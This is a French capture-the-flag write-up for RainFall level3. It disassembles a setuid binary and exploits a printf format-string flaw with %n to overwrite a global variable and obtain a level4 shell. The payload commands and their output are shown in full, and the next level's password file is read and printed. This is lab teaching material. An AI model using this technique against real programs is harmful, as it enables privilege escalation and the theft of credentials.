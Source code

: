 on a un exécutable `level3` qui lit sur l'entrée standard
```
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
level3@RainFall:~$ ./level3
hey
hey
level3@RainFall:~$ ./level3 salut
hey
hey
```
on check les fonctions et on obtient une fonction `main`,
```
0x0804851a <+0>:     push   %ebp
0x0804851b <+1>:     mov    %esp,%ebp
0x0804851d <+3>:     and    $0xfffffff0,%esp
0x08048520 <+6>:     call   0x80484a4 <v>    // call la fonction v
0x08048525 <+11>:    leave
0x08048526 <+12>:    ret
```
et une fonction `v` :
```
0x080484a4 <+0>:     push   %ebp
0x080484a5 <+1>:     mov    %esp,%ebp
0x080484a7 <+3>:     sub    $0x218,%esp
0x080484ad <+9>:     mov    0x8049860,%eax          // eax = stdin
0x080484b2 <+14>:    mov    %eax,0x8(%esp)          // argument 3 for fget()
0x080484b6 <+18>:    movl   $0x200,0x4(%esp)        // argument 2 for fget()
0x080484be <+26>:    lea    -0x208(%ebp),%eax
0x080484c4 <+32>:    mov    %eax,(%esp)             // argument 1 for fget()
0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>   // call gets()
0x080484cc <+40>:    lea    -0x208(%ebp),%eax
0x080484d2 <+46>:    mov    %eax,(%esp)             // argument for printf()
0x080484d5 <+49>:    call   0x8048390 <printf@plt>  // call printf()
0x080484da <+54>:    mov    0x804988c,%eax          // address of m
0x080484df <+59>:    cmp    $0x40,%eax              // check if m == 40(64)
0x080484e2 <+62>:    jne    0x8048518 <v+116>       // if not equal jump to line 116
0x080484e4 <+64>:    mov    0x8049880,%eax          // eax = stdout
0x080484e9 <+69>:    mov    %eax,%edx
0x080484eb <+71>:    mov    $0x8048600,%eax
0x080484f0 <+76>:    mov    %edx,0xc(%esp)          // argument 4 for fwrite()
0x080484f4 <+80>:    movl   $0xc,0x8(%esp)          // argument 3 for fwrite()
0x080484fc <+88>:    movl   $0x1,0x4(%esp)          // argument 2 for fwrite()
0x08048504 <+96>:    mov    %eax,(%esp)             // argument 1 for fwrite()
0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>  // call fwrite()
0x0804850c <+104>:   movl   $0x804860d,(%esp)       // argument for system()
0x08048513 <+111>:   call   0x80483c0 <system@plt>  // call system
0x08048518 <+116>:   leave  
0x08048519 <+117>:   ret
```
lors du désassemblage, on peut voir que si la variable `m` est égale à 64 octets le programme lance un shell, il faut donc modifier `m`

on voit que printf ne prend que un paramètre pour afficher la variable `buffer`, cela rend le programme vulnérable à une "format string attack"

https://owasp.org/www-community/attacks/Format_string_attack

```
level3@RainFall:~$ echo -e "%p %p %p %p %p %p" > /tmp/stringexploit
level3@RainFall:~$ cat /tmp/stringexploit | ./level3 
0x200 0xb7fd1ac0 0xb7ff37d0 0x25207025 0x70252070 0x20702520
```

on voit que l'on peut afficher les adresses de la stack, ce qu'on veut c'est trouver l'emplacement de l'adresse de la variable `m`, on envoie en premier l'adresse de `m` pour qu'elle soit dans la stack lors du printf
on utilisera ensuite le spécificateur `%n` pour modifier `m`

https://stackoverflow.com/questions/3401156/what-is-the-use-of-the-n-format-specifier-in-c

```
level3@RainFall:~$ echo -e "\x8c\x98\x04\x08 %08p %08p %08p %08p %08p %08p %08p %08p" > /tmp/stringexploit
level3@RainFall:~$ cat /tmp/stringexploit | ./level3 
� 0x000200 0xb7fd1ac0 0xb7ff37d0 0x804988c 0x38302520 0x30252070 0x25207038 0x20703830
```

l'adresse de `m` est disponible à la 4ème place, on garde celle qui sont placées avant et on rajoute `x` octets pour que m soit égale à 64

`x` = 64 - strlen("\x8c\x98\x04\x08") - strlen(" %08p %08p %08p ")

`x` = 64 - 4 - 32 = 28

on rajoute 28 char dans le fichier stringexploit

```
level3@RainFall:~$ echo -e "\x8c\x98\x04\x08 %08p %08p %08p aaaaaaaaaaaaaaaaaaaaaaaaaaaa%n" > /tmp/stringexploit
level3@RainFall:~$ (cat /tmp/stringexploit ; cat) | ./level3 
�0x000200 0xb7fd1ac0 0xb7ff37d0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
pwd
/home/user/level3
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```